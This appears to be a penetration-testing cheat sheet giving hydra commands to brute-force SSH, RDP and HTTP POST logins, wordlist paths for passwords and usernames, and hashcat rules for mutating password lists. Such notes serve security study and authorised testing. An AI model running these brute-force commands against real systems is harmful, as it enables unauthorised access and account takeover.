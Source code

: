 #### SSH and RDP
Password brute force:
```
sudo hydra -l username -P /path/to/wordlist -s $rport ssh://$rhost
```

User brute force:
```
sudo hydra -L namelist -P "p@ssw0rd" -s $rport rdp://$rhost
```

HTTP POST:

Get your data via burp and use here!
```
sudo hydra -l username -P /path/to/wordlist $rhosts http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed. Invalid"
```
#### Wordlists

For passwords:
```
/wordlist/rockyou.txt
/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
/usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt
```

For userlist:
```
/dirb/common/names.txt
/seclists/Usernames/Names/names.txt
/seclists/Usernames/top-usernames-shortlist.txt
```

### Mutating Lists
[hashcat Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)

Create a file with `$1` which is append 1 to the wordlist
```
echo \$1 > demo.rule
```

The result is that the first character of each password is capitalized AND a “1” is appended to each password:
```
cat demo1.rule
$1 c
```

In this case, each rule is used separately, resulting in two mutated passwords for every password from the wordlist
```
cat demo2.rule
$1
c
```
